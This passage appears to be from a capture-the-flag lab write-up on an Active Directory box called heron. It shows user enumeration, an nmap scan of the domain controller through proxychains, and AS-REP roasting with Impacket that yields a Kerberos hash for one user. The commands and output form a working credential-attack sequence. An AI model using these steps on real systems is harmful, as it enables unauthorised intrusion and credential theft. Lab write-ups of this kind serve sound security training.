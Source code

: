 Checking the home directory shows two domain users:
```
svc-web-accounting-d@heron.vl
svc-web-accounting@heron.vl
```

Also checking where the dc with nslookup:
```
nslookup heron.vl
Server:         10.10.172.101
Address:        10.10.172.101#53

Name:   heron.vl
Address: 10.10.172.101
```

With this we can check for some common ports on the domain controller.
```
proxychains -q nmap -p 80,445,389,443 -sT heron.vl
Starting Nmap 7.95 ( https://nmap.org ) at 2024-10-05 17:27 AEST
Nmap scan report for heron.vl (10.10.172.101)
Host is up (0.29s latency).

PORT    STATE  SERVICE
80/tcp  open   http
389/tcp open   ldap
443/tcp closed https
445/tcp open   microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 16.17 seconds
```

Port 80:
Looking at the website gives us a more usernames:
```
wayne.wood
julian.pratt
samuel.davies
```

As we still dont have domain credentials we could try to asreproast:
```
proxychains -q GetNPUsers.py -no-pass -usersfile ~/vulnlab/heron/users.txt heron.vl/
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] User svc-web-accounting-d doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc-web-accounting doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User wayne.wood doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User julian.pratt doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$samuel.davies@HERON.VL:6296a0c3d3aa9db106b143d143218911$121b1d70524cbeab629efa0ced00e364c47a8bcafc39492a8dd3ab3abcb6bdf28da22ccbab2664624a17955966fa7d2fcb189b4f63ff0459adf65dba7062db5032e9072328601e68939506a2f52e39bb09eb708851e53bec778e48eb71e467a0beba13581c5cfcfd858820a91f4d6b3d9d232d98bc6b58b22e4ad8393d836572f4f0fb177600eb9715a7cd15cb54852ce874096a493865921c90e87e4e71d349db45f2e31d8953d04092f3d85bebacb453fa3520caaa45e4329658fb9eafc60fa269e18440625c476e449cf76ebe70d1ad72c3f361dbafe4b25ac37fe4a54c9f0d85755e
```
